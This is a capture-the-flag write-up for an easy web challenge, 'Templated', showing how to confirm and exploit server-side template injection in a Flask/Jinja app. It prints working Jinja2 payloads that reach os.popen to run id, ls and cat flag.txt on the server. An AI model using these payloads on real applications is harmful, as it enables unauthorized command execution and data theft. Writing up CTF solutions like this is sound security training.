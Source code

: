# Templated
#web 

### Challenge Author(s): clubby789

#### Description: Can you exploit this simple mistake? 
#### Difficulty: Easy

# Challenge

Firstly we have to find what is the application vulnerable to. From the landing page it is clear that the application is built using Flask/Jinja. Lets check whether there are any exploits available for this application. I am using **Exploit-DB** to search for exploit.

I have found that this application can be vulnerable to **SSTI**.

![](assets/images/exploit.png) 

Let's check whether the application is vulnerable to **SSTI**.

We can check this by appending {{4*4}} to the url.

![](assets/images/SSTI-proof.png)

The application is vulnerable to **SSTI**. 

So lets find how can we use this exploit.

After some research on the internet I found a blog in which there are some scripts for injection. So I am using those scripts.

![](assets/images/script.png)

Lets use the script, ```{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}```

This gives the following output.

![](assets/images/run1.png)

From the output it is clear that uid's are returned. so lets modify the command in the script ```{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}```

The output is as follows.
![](assets/images/run2.png)

We can see that the list of files and directories is returned. One file among those files is interesting for us, the file is **flag.txt**

Now lets read the contents of the flag by using ```{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}```

The output is the the required flag. 
